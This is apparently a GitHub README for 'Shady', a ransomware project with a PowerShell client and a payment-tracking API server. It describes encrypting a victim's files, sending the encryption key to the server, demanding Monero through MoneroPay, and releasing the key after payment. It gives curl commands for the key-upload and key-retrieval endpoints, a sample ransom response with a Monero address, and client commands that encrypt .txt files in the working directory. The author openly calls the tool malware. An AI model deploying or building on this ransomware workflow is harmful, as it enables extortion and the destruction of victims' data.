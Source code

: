# Shady

Very basic ransomware implementation that encrypts files, sends encryption keys to the API server, requests Monero from the user. Uses [MoneroPay](https://gitlab.com/moneropay/moneropay) to track payments sent by the victim. Provides an endpoint for the user to download keys to decrypt their files if the payment has arrived.

That's right. The only way I will ever touch Powershell is if it's gonna be straight up malware. Universities need to stop teaching proprietary software that nobody uses. Teach a [real](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html) shell, not a C# interpreter.

>Now there's a MoneroPay powered ransomware that isn't the original Moneropay ransomware which wasn't powered by MoneroPay\
-- crtoff

## Server
### POST /encrypt
```sh
curl -X POST http://baseurl:1337/encrypt -d "key=keystring"
```

#### Response
```
740f1fb1-c47d-4059-8104-accdc718a1b4 8BGoVn4r5mPL9qYjFmaNGyLKmVvHzQj6Z51YpPL67br9fynLsjaEG7PJaTpmjbUi7bWikXmaBTo7pWdbLo1CQMqiUFrBzPV 0.1
```

The format is as follows: [Payment ID] [Monero address] [Monero amount in float]

### GET /decrypt/{id}
```sh
curl -X GET http://baseurl:1337/decrypt/{payment_id}
```

#### Response
If the ransom was paid the response body will contain the key that will be used to decrypt the files.

### POST /callback/{id}
This endpoint is given to MoneroPay to callback.

## Client
Import as cmdlet:
```
Import-Module shady-client.ps1
```

Encrypt all files with .txt extension in the current working directory:

```
Shady-Client -Encrypt
```

Decrypt files once the ransom has been paid:
```
Shady-Client -Decrypt
```
